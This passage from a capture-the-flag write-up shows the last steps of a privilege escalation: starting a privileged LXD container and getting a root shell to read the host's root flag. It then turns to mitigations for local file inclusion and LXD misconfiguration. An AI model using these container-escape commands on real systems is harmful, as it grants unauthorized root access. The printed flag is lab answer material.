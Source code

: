 ### ROOT  

Now all we have left to do is start the container. After that, we can provide 'exec' when running lxc to pass commands with use of the privileged container.  

```bash
/snap/bin/lxc start rootcontainer

/snap/bin/lxc exec rootcontainer /bin/sh

~ # ^[[61;5Rwhoami

root
```  

Well, we are root and we have access to the whole filesystem. It is located in /mnt/root/.  

We need to access it to grab the flag:  

```bash
cd /mnt/root/root 
cat root.txt

0115e05eb486f17e60281924f89dadca
```  

## Mitigations  

There are ways that all of these issues can be mitigated and prevent an attacker from exploiting them.  

### Local File Inclusion (LFI)  

I initially gained access to system files from my browser via LFI in a parameter named 'file' in the URL.  

This is a common vulnerability but can be easily prevented. According to [OWASP's WSTGv4.1](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) the most effective way is to avoid passing user input to the server/filesystem/API. However, if this is not possible, OWASP recommends creating a very strict whitelist that only allows specific files to be retrieved this way.  

### LXD/LXC Misconfigurations  

There are multiple ways to prevent exploits related to these container systems. I read about quite a few of them that are documented in NCCGroup's *Abusing Privileged and Unprivileged Linux Containers* :  
